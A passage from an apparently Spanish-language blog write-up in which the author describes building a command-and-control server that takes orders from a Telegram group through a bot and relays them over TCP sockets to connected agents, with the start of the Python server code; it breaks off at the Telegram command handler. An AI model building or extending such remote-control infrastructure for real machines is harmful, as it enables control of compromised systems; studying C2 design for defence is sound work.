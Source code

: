 - **Servidor (C2):** esta conectado a un grupo de Telegram, recibe comandos desde ahi y los distribuye a los agentes

---

## Desarrollo

Aqui voy a relatar mas o menos como lo fui desarrollando poco a poco

### Primeros pasos

Empecé definiendo la estructura básica del proyecto: era un **cliente** que se conecta a un **servidor mediante sockets**. El servidor a la vez esta conectado a un **grupo de telegram mediante un bot** que escucha comandos enviados en el grupo y los dirije a los clientes

**Esquema de la estructura:**
![Esquma de C2](/images/C2_Over_Tg/esquema_c2.png)

**Esta sería un poco la estructura mas básica del servidor:**

#### Servidor:
```python
import socket
import threading
import telebot

# Configuración del bot de Telegram y del servidor C2
TOKEN = "TOKEN_DEL_BOT_DE_TELEGRAM"
C2_CHANNEL_ID = "ID_DEL_GRUPO_O_CANAL"
C2_SERVER_IP = "0.0.0.0"
C2_SERVER_PORT = 9090

# Inicializamos el bot y la lista de clientes conectados
bot = telebot.TeleBot(TOKEN)
clients = []

# Función que controlara cada cliente en un hilo aparte
def handle_client(client_socket):
    while True:
        try:
            pass  # De momento no hace nada aquí, todo se controla desde Telegram
        except:
            # Si hay algun error, eliminamos al cliente y cerramos su socket
            clients.remove(client_socket)
            client_socket.close()
            break

# Esto enciende el servidor TCP que esta en espera conexiones de clientes
def start_server():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((C2_SERVER_IP, C2_SERVER_PORT))
    server.listen(5)
    print(f"[+] Esperando conexiones en {C2_SERVER_IP}:{C2_SERVER_PORT}")

    while True:
        client_socket, addr = server.accept()
        print(f"[+] Nuevo cliente conectado: {addr}")
        clients.append(client_socket)
        # Cada cliente es un hilo aparte por si llegan varios a la vez
        threading.Thread(target=handle_client, args=(client_socket,), daemon=True).start()

# Cada vez que alguien escribe en el grupo esta función se ejecuta y procesa el mensaje
@bot.message_handler(func=lambda m: True)
def handle_telegram_command(message):
```